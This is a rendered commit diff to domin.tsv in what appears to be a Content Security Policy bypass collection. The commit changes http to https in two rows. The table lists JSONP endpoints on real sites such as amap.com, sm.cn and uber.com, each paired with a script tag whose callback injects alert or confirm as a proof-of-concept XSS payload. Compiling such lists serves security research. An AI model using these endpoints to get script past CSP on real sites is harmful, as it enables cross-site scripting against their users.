

Before and after one commit to asuspctow/csp, a TSV file: domin.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

Commit message:
Update domin.tsv

```diff
--- a/domin.tsv
+++ b/domin.tsv
@@ -146,4 +146,4 @@ bebezoo.1688.com  <script src="https://bebezoo.1688.com/fragment/index.htm?callb
 wb.amap.com  <script src="https://wb.amap.com/channel.php?callback=alert(1337)"></script>
-a.sm.cn  <script src="http://a.sm.cn/api/getgamehotboarddata?format=jsonp&page=1&_=1537365429621&callback=confirm(1);jsonp1"></script>
-api.m.sm.cn  <script src="http://api.m.sm.cn/rest?method=tools.sider&callback=jsonp_1869510867%3balert(1)%2f%2f794"></script>
+a.sm.cn  <script src="https://a.sm.cn/api/getgamehotboarddata?format=jsonp&page=1&_=1537365429621&callback=confirm(1);jsonp1"></script>
+api.m.sm.cn  <script src="https://api.m.sm.cn/rest?method=tools.sider&callback=jsonp_1869510867%3balert(1)%2f%2f794"></script>
 mkto.uber.com  <script src="https://mkto.uber.com/index.php/form/getKnownLead?callback=alert(document.domain);"></script>
```
Also changed, not shown: 6 edited cells elsewhere in this file.
